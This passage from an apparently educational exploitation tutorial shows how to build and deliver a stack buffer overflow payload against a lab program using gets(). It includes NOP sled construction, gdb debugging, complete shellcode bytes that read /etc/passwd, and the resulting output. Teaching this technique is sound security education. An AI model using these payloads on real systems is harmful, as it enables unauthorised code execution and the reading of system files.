For the value that will overwrite the return address, it's a bit different. Here you have four bytes that represent an address in memory where we want to jump. Let say we want to jump to our shellcode in the stack and, unfortunately, this address contain a `0x00`. One way to get around it is to add extra characters in front of the shellcode to offset the beginning of it. So, for instance, if our shellcode is initially located at `0xbfffef00`, we could simply add one character in front if it and now the shellcode is located at `0xbfffef01`. Another example, if the shellcode is initially located at `0xbfff00a0`, we could add 256 character in front of the shellcode, so that the new payload place the shellcode at `0xbfff01a0`.

#### Limited length

Another issue might be that the initial input that will overflow the buffer might be too small to contain your shellcode. In this case, you can either optimize/change your shellcode, or you can try to place the shellcode somewhere else. For instance, if you can execute command on the Linux system, you could create a new [environment variable](https://codeburst.io/linux-environment-variables-53cea0245dc9) with the shellcode, or send it as parameters when running the vulnerable application. Both environment variables and application parameters are placed in the stack before the `main`'s stack frame.

### Build payload

You've identified the offset, you selected your shellcode, now, let's build the payload. The first step is to verify that the shellcode doesn't contain bad chars. Usually, shellcodes from [shell-storm.org](http://shell-storm.org/shellcode/) are optimised to avoid at least the `NULL` character. If the shellcode contains bad chars, either optimize it manually or find another shellcode that doesn't. Once done, calculate the size of the shellcode. If it is bigger than the offset to the return address, we won't be able to place the shellcode in front of the return address. If it is smaller, you can decide whether you want to place it before or after. In our case, the shellcode is 51 bytes, the offset is at 28 bytes, so we will place the shellcode after the return address.

```text
python -c "print 28*'A' + 'BBBB' + '\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80'"
```

We still need to find the address in memory where the shellcode will be located. For this, you can build your payload using an invalid memory address \(e.g. `0x42424242`\) then send it in `gdb`. In order to make it more easy to find the shellcode in the stack, we can replace it with a constant value, e.g. "C".

Remember, the payload is not directly sent in the program's arguments but to the `gets()` once the program is run. In order to send non-printable characters in gdb, we can use the `gdb` [process substitution](https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html#Process-Substitution) like this:

```text
$ gdb login -q
Reading symbols from login...(no debugging symbols found)...done.
(gdb) run < <(python -c "print 28*'A' + 'BBBB' + 51 * 'C'")
Starting program: /home/lab/login < <(python -c "print 28*'A' + 'BBBB' + 51 * 'C'")

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/50x $esp
0xbfffef20:	0x43434343	0x43434343	0x43434343	0x43434343
0xbfffef30:	0x43434343	0x43434343	0x43434343	0x43434343
0xbfffef40:	0x43434343	0x43434343	0x43434343	0x43434343
0xbfffef50:	0x00434343	0xbfffefe4	0xbfffefec	0x00000000
0xbfffef60:	0x00000000	0x00000000	0xb7fbb000	0xb7fffc04
0xbfffef70:	0xb7fff000	0x00000000	0xb7fbb000	0xb7fbb000
0xbfffef80:	0x00000000	0x64b8d332	0x5f4d9d22	0x00000000
0xbfffef90:	0x00000000	0x00000000	0x00000001	0x08048370
0xbfffefa0:	0x00000000	0xb7ff0010	0xb7fea880	0xb7fff000
0xbfffefb0:	0x00000001	0x08048370	0x00000000	0x08048391
0xbfffefc0:	0x0804846b	0x00000001	0xbfffefe4	0x08048500
0xbfffefd0:	0x08048560	0xb7fea880	0xbfffefdc	0xb7fff918
0xbfffefe0:	0x00000001	0xbffff1e3
```

We could have expected it, `esp` is pointing at the very beginning of the shellcode. The `ret` instruction from `verify_password()` pop'ed the overwritten return address and \(tried to\) jump to it. So, this means `esp` is now pointing to what was written right after the return address, i.e. our shellcode.

So now, we can see that the shellcode will be located at `0xbfffef20` \(see the blocks of `0x43434343`\). So, the payload will be:

```text
python -c "print 28*'A' + '\x20\xef\xff\xbf' + '\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80'"
```

Sometimes, the size of the user input might influence the address where the shellcode will be located. In fact, several aspect of the program might slightly alter the actual location of the shellcode. For instance, running the application in `gdb` or straight from the terminal will slightly [shift the stack](https://reverseengineering.stackexchange.com/a/2988) in memory. In our case, we have a difference of around 0x20 bytes.

In order to overcome this problem, we can build what's known as a "NOP sled". If you remember from chapter [assembly](assembly.md#line-12-nop), the `nop` instruction does nothing, which in our case could be useful. We can build a relatively long chain of `nop` instructions and place it right before the shellcode. Then we don't need to give the exact address of the shellcode, we just need to find an address within that chain of `nop`. If we manage to land there, the CPU will execute the `nop` \(i.e. do nothing\) and move to the next instruction until it eventually reaches the first instruction of our actual shellcode.

So here is our final payload with a `nop` sled of 100 `nop` instructions:

```text
python -c "print 28*'A' + '\x52\xef\xff\xbf' + 100 * '\x90' + '\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80'"
```

We also changed the return address to point in the middle of our nop sled: `0xbfffef52`.

### Send your payload

There are multiple ways for a program to get user inputs. In this chapter, we will cover two ways:

* from the application argument
* from `scanf`/`gets`

#### Application argument

We've seen in chapter [programming](programming.md#program-arguments), whenever you call an application with argument \(e.g. `cp /path/source /path/destination`\), the argument\(s\) are sent in a form of a string array to `main` as `argv`. If one of the argument can be leverage to exploit a buffer overflow, here are the different way to send the payload.

One way is to use the Linux command line argument:

```text
./application $(echo -ne "AAA...A\x52\xef\xff\xbf\x90\x90...")
```

Here in this case, we used `$(` `)` to execute whatever is within the parentheses and send it as argument. We could also use `python` instead of `echo`:

```text
./application $(python -c "print 28*'A' + '\x52\xef\xff\xbf' + 100 * '\x90' + '\x31...'")
```

#### Using scanf/gets

When using `scanf`/`gets`, it's a little bit different since we first need to execute the application, wait for the application `scanf` or `gets` to be executed and then send the user input. Fortunately, it isn't as complicate as it sounds, we simply need to use [pipe](https://ryanstutorials.net/linuxtutorial/piping.php):

```text
echo -ne "AAA...A\x52\xef\xff\xbf\x90\x90..." | ./application
```

Here, we can also use python:

```text
python -c "print 28*'A' + '\x52\xef\xff\xbf' + 20 * '\x90' + '\x31...'" | ./application
```

Now, let say you have an application where it asks with a `scanf` for your name, then you surname and the buffer overflow is triggered when using a long surname. You will first need to send a user input for the name. You can do that be sending a string where the name and the last name is separated by a _newline_ character \("`\n`"\). For instance:

```text
echo -ne "Hello\nAAAAAAAAAAAA..." | ./application
```

### Wrap up

So, here is a summary of what we've done to exploit the application `login`:

1. We identified the vulnerability by simply looking at the source code and finding the function `gets()`.
2. We used the script to generate a long string with a specific pattern
3. We used run `login` in `gdb` and send the generated string
4. We look at the value of `eip` once the application crashed and we convert it in ASCII
5. We send the ASCII value in the second script to calculate the offset
6. We build a skeleton payload: `offset * "A" + "BBBB" + 100 * NOP + shellcode`
7. We once again run `login` in `gdb` and send the skeleton
8. We look at `esp` once the application crashed to get the shellcode address and we find an address in the middle of the nop sled
9. We build our payload: `offset * "A" + nop_sled_address + 100 * NOP + shellcode`
10. We execute the application `login` with the payload

Once run, the shellcode is executed and we have the file `/etc/passwd` printed in our terminal:

```text
$ python -c "print 28*'A' + '\x52\xef\xff\xbf' + 100 * '\x90' + '\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80'" | ./login
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```

## References

* \[[1](https://www.linux.com/blog/what-suid-and-how-set-suid-linuxunix)\]: https://www.linux.com/blog/what-suid-and-how-set-suid-linuxunix
* [fuzzer](https://www.mwrinfosecurity.com/our-thinking/15-minute-guide-to-fuzzing/): https://www.mwrinfosecurity.com/our-thinking/15-minute-guide-to-fuzzing/
* [pattern\_create.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb): https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern\_create.rb
* [pattern\_offset.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb): https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern\_offset.rb
* [Rapid7](https://www.rapid7.com): https://www.rapid7.com
* [metasploit](https://www.metasploit.com): https://www.metasploit.com
* [zerosum0x0](https://twitter.com/zerosum0x0): https://twitter.com/zerosum0x0
* [Online pattern generator and offset finder](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html): https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html
* [bin/cat /etc/passwd](http://shell-storm.org/shellcode/files/shellcode-571.php): http://shell-storm.org/shellcode/files/shellcode-571.php
* [Environment variable](https://codeburst.io/linux-environment-variables-53cea0245dc9): https://codeburst.io/linux-environment-variables-53cea0245dc9
* [Process substitution](https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html#Process-Substitution): https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html\#Process-Substitution
* [shift the stack](https://reverseengineering.stackexchange.com/a/2988): https://reverseengineering.stackexchange.com/a/2988
* [pipe](https://ryanstutorials.net/linuxtutorial/piping.php): https://ryanstutorials.net/linuxtutorial/piping.php

